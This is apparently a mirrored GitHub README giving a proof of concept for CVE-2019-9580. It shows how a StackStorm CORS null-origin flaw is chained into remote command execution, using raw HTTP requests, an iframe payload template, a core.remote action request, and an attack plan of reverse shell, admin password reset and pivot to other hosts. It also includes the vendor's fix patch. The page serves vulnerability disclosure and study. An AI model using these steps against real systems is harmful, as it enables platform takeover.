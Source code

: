 # CVE-2019-9580

CVE-2019-9580 - StackStorm: exploiting CORS misconfiguration (null origin) to gain RCE

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/mpgn](https://github.com/mpgn) |
| Url      | [https://github.com/mpgn/CVE-2019-9580](https://github.com/mpgn/CVE-2019-9580)                                               |
| Stars    | 29                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* stackstorm

</details>

## Readme

# CVE-2019-9580 - StackStorm exploiting CORS null origin to gain RCE < 2.9.3 and 2.10.3

> Prior to 2.10.3/2.9.3, if the origin of the request was unknown, we would return null.  null can result in a successful request from an unknown origin in some clients. Allowing the possibility of XSS style attacks against the StackStorm API.

found by [Barak Tawily](https://github.com/Quitten) and [Anna Tsibulskaya](https://github.com/anna-wix)

![Peek 13-03-2019 17-16](https://user-images.githubusercontent.com/5891788/54295917-39f07300-45b4-11e9-8387-63ed2b64878e.gif)
_(user on Firefox is the victim, user on Chrome is the attacker)_

### Proof of Concept


#### Exploiting null CORS
By sending a request to the StackStorm API with an null Origin header `Origin: null`, the server responds with an `Access-Control-Allow-Origin` to `null`.

```
GET /api/v1/executions?action=packs.get_config&limit=5&exclude_attributes=trigger_instance&parent=null HTTP/1.1
Host: localhost:4443
Origin: 443
Referer: https://localhost:4443/
x-auth-token: a19e39b9dff24e4798ba04c7036d0275
```

Server response:
```
Access-Control-Allow-Origin: null <-- hug hug hug
Access-Control-Allow-Methods: GET,POST,PUT,DELETE,OPTIONS
Access-Control-Allow-Headers: Content-Type,Authorization,X-Auth-Token,St2-Api-Key,X-Request-ID
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Type,X-Limit,X-Total-Count,X-Request-ID
```

Exploiting null CORS is documented on a [blogpost from portswigger](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties) and we can found the following payload:
```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src='data:text/html,
<script>

*inject your malicous code*

</script>’></iframe>
```

#### But what about the RCE ?

StackStorm allows you to configure **actions** and some of them like `core.remote` execute arbitrary command on the host of your choice.

![image](https://user-images.githubusercontent.com/5891788/54306352-7aa6b700-45c9-11e9-988c-726b150c9303.png)

So if we put host **127.0.0.1**, we will execute command on the StackStorm docker. Nice, RCE should be OK since a simple POST request is send to register an **action**.

```
POST /api/v1/executions HTTP/1.1
Host: localhost:4443
Origin: null
Content-Type: application/json
x-auth-token: a19e39b9dff24e4798ba04c7036d0275
Content-Length: 131

{"action":"core.remote","parameters":{"cmd":"touch /tmp/pwn2.txt","hosts":"127.0.0.1","cwd":"/tmp"},"context":{"trace_context":{}}}
```

#### What next ?

We can execute command on the host of StackStorm okay, but let's gain full control over StackStorm plateform. This can be down by reseting the password of the administrator. Using the documention:

> Need to change the password? Run: sudo htpasswd /etc/st2/htpasswd st2admin.
https://docs.stackstorm.com/authentication.html

Nice, let's just put all together :
1. Send a link to the victim with malicous payload that register a new **action** on the host 127.0.0.1 to exec an arbirary command
2. The victim clicks on the link and view the pony
3. Since CORS is null when a request is sent with header `Origin: null`, the POST request to register the new action is working (we also set the parameter `credentials: "include"`)
4. The action is trigger and command executed (reverse shell)
5. Attacker resets the password of the administrator and gain full control over StackStorm platform
6. Attacker can corrupt all the other host registered into StackStorm

![capture d'écran_1](https://user-images.githubusercontent.com/5891788/54295923-3d83fa00-45b4-11e9-82c5-faec2d5b2456.png)

**Security Advisory**: 
- https://stackstorm.com/2019/03/08/stackstorm-2-9-3-2-10-3/
- https://github.com/StackStorm/st2/pull/4577/commits/66605b7b202b8bd2db1ccd8c1ce7279028ac86d4

```diff
From 66605b7b202b8bd2db1ccd8c1ce7279028ac86d4 Mon Sep 17 00:00:00 2001
From: bigmstone <matthew99@gmail.com>
Date: Tue, 5 Mar 2019 12:22:26 -0600
Subject: [PATCH] Fix improper CORS return

Prior to this commit if you sent a request from an origin not listed in
`allowed_origins` we would respond with `null` for the
`Access-Control-Allow-Origin` header. Per
[https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin#Directives](mozilla's documentation)
null should not be used as some clients will allow the request to go
through. This commit returns the first of our allowed origins if the
requesting origin is not a supported origin.
---
 st2api/tests/unit/controllers/v1/test_base.py | 4 ++--
 st2common/st2common/middleware/cors.py        | 2 +-
 2 files changed, 3 insertions(+), 3 deletions(-)

diff --git a/st2api/tests/unit/controllers/v1/test_base.py b/st2api/tests/unit/controllers/v1/test_base.py
index 2a753f22ea..e66148a0a5 100644
--- a/st2api/tests/unit/controllers/v1/test_base.py
+++ b/st2api/tests/unit/controllers/v1/test_base.py
@@ -51,8 +51,8 @@ def test_wrong_origin(self):
             'origin': 'http://xss'
         })
         self.assertEqual(response.status_int, 200)
-        self.assertEqual(response.headers['Access-Control-Allow-Origin'],
-                         'null')
+        self.assertEqual(response.headers.get('Access-Control-Allow-Origin'),
+                        'http://127.0.0.1:3000')
 
     def test_wildcard_origin(self):
         try:
diff --git a/st2common/st2common/middleware/cors.py b/st2common/st2common/middleware/cors.py
index 5781b1a6e7..8cb407b52c 100644
--- a/st2common/st2common/middleware/cors.py
+++ b/st2common/st2common/middleware/cors.py
@@ -66,7 +66,7 @@ def custom_start_response(status, headers, exc_info=None):
                     origin_allowed = origin
                 else:
                     # See http://www.w3.org/TR/cors/#access-control-allow-origin-response-header
-                    origin_allowed = origin if origin in origins else 'null'
+                    origin_allowed = origin if origin in origins else list(origins)[0]
             else:
                 origin_allowed = list(origins)[0]
```

### Ressources:

* https://stackstorm.com/2019/03/08/stackstorm-2-9-3-2-10-3/
* https://quitten.github.io/StackStorm/




## Get the content

```
git clone https://github.com/mpgn/CVE-2019-9580
cd CVE-2019-9580
```

{% embed url="https://github.com/mpgn/CVE-2019-9580" %}

<figure><img src="https://avatars.githubusercontent.com/u/5891788?v=4" alt=""><figcaption><p>mpgn</p></figcaption></figure>
